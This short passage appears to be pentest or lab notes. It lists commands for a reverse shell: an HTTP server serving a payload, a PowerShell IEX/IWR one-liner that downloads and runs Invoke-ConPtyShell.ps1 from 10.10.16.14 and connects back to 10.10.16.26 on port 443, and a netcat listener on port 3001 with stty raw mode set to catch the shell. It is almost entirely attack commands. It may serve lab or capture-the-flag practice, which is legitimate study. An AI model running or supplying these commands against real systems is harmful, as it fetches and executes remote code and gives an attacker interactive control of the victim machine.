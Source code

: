 
```
httpserv -p 8000
```

```
IEX(IWR http://10.10.16.14:8000/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.16.26 443
```

server side
```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```
